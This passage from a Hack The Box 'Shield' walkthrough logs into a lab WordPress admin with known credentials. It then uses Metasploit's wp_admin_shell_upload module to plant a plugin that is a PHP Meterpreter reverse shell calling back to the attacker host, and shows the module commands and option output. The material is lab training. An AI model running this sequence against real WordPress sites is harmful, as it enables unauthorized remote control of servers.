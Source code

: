 The url [http://shield.htb/wordpress](http://shield.htb/wordpress) reveals a wordpress website called SHIELDSUP that features blog posts by a user admin. Wordpress sites by default have administration pages at the url [http://shield.htb/wordpress/wp-admin](http://shield.htb/wordpress/wp-admin). You already know a user admin and from a previous machine in the StartingPoint series, you would have discovered the password **P@s5w0rd!**. Trying this with the user admin gets us in.

## Launching a Meterpreter Reverse Shell

The objective of the challenge is to gain access to the box to explore and hopefully discover more vulnerabilities that can be exploited to gain further privilege and access. This means getting control of user accounts that give progressively more access until we get to be the administrator of the box. Initial access usually refers to gaining a shell as one of these users. A shell is a program that allows a user the ability to type commands and display results.

On Windows it is the **cmd.exe** program, on Linux it is **Bash** or **Zsh** that runs in the terminal program. We have been using a shell on our Parrot box to carry out all of the actions we have taken so far. When a shell is run locally on a box, it is a local shell. Remote shells are those that are accessed over a network connection so that the commands are typed on the local attacker box but run on the remote machine. We can set up a remote shell by running a program on our local Parrot box which listens for connections and then run a program on the remote machine that connects back to the listener and establishes the remote shell session. This is called a reverse shell.

We will explore all of this in more detail in the next chapter, but for the moment, we are going to get a reverse shell using **Meterpreter**. Time to turn to Metasploit which has a way of launching a Meterpreter reverse shell in PHP! Start Metasploit by selecting it from the menu or by running

```bash
sudo msfconsole-start
```

In Metasploit, we are going to use an existing exploit of the WordPress administrator account by uploading a plugin to WordPress that is actually a reverse shell. Plugins, as we see later when we craft our own custom plugin, are ways of packaging PHP code to add functionality to WordPress. The security vulnerability with this is that this code has access to do whatever the user account that is running WordPress can do. There is nothing limiting what code in plugins can do normally. In the case of this exploit, we use the command:

```bash
use exploit/unix/webapp/wp_admin_shell_upload
```

We can ignore the fact that this is a Windows box not a Unix one. It still works.

You can set the options for this exploit using the set command:

```bash
set PASSWORD P@s5w0rd!
set USERNAME admin
set TARGETURI /wordpress
set RHOSTS 10.10.10.29
set LHOST 10.10.14.2
```

**LHOST** is the IP address of your attacker machine which you can get using the command “ifconfig”. After doing that, the options should look as follows:

```
msf6 exploit(unix/webapp/wp_admin_shell_upload) > options
Module options (exploit/unix/webapp/wp_admin_shell_upload):
 Name Current Setting Required Description
 ---- --------------- -------- -----------
 PASSWORD P@s5w0rd! yes The WordPress password to authenticate with
 Proxies no A proxy chain of format type:host:port[,type:host:port][...]
 RHOSTS 10.10.10.29 yes The target host(s), range CIDR identifier, 
 or hosts file with syntax 'file:<path>'
 RPORT 80 yes The target port (TCP)
 SSL false no Negotiate SSL/TLS for outgoing connections
 TARGETURI /wordpress yes The base path to the wordpress application
 USERNAME admin yes The WordPress username to authenticate with
```